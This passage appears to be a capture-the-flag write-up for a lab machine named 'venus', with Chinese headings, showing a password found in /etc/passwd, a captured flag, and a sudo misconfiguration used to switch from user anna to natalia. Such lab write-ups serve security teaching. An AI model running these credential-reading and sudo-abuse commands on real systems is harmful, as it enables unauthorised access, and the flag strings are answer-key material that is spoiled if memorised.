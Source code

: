 ```bash title="cat /etc/passwd"
......
alice:x:1014:1014:w8NvY27qkpdePox:/pwned/alice:/bin/bash
......
```

## Stage - anna

### flag - 14

```plaintext
8===5Y3DhT66fa6Da8RpLKG0===D~~

```

### 任务目标

```plaintext title="/pwned/anna/mission.txt"
################
# MISSION 0x15 #
################

## EN ##
Maybe sudo can help you to be natalia.
```

### 行动

```bash title="ls -lah"
total 32K
drwxr-x--- 2 root anna 4.0K Jul 26  2023 .
drwxr-xr-x 1 root root 4.0K Jul 26  2023 ..
-rw-r--r-- 1 anna anna  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 anna anna 3.5K Apr 23  2023 .bashrc
-rw-r--r-- 1 anna anna  807 Apr 23  2023 .profile
-rw-r----- 1 root anna   31 Jul 26  2023 flagz.txt
-rw-r----- 1 root anna  152 Jul 26  2023 mission.txt
```

```bash title="sudo -l"
Matching Defaults entries for anna on venus:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User anna may run the following commands on venus:
    (natalia) NOPASSWD: /bin/bash
```

```bash
anna@venus:~$ sudo -u natalia /bin/bash
natalia@venus:/pwned/anna$ whoami
natalia
```

## Stage - natalia

